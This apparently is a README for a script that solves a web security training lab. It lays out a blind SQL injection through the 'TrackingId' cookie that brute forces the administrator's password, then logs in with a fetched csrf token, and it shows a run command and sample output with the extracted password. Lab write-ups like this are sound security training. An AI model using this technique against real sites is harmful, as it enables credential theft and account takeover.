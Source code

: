 # Hack Steps

1. Inject payload into 'TrackingId' cookie to determine the length of administrator's password based on conditional responses
2. Modify the payload to brute force the administrator's password 
3. Fetch the login page
4. Extract csrf token and session cookie
5. Login as the administrator
6. Fetch the administrator profile

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ python blind_sql_injection_with_conditional_responses.py
```

# Expected Output

```
[#] Injection point: TrackingId
1. Checking if password length = 10 
1. Checking if password length = 15
                    .........
1. Checking if password length = 20 [ Correct length: 20 ]
2. Checking if char at position 5   =  9 [ Correct password: 37z59 ]
2. Checking if char at position 12  =  i [ Correct password: 37z59ib4bm7i ]
                    ..........
2. Checking if char at position 20  =  2 [ Correct password: 37z59ib4bm7ifm6fuxo2 ]
3. Fetching login page.. OK
4. Extracting csrf token and session cookie.. OK
5. Logging in as the administrator.. OK
6. Fetching the administrator profile.. OK
🗹 Check your browser, it should be marked now as solved
```
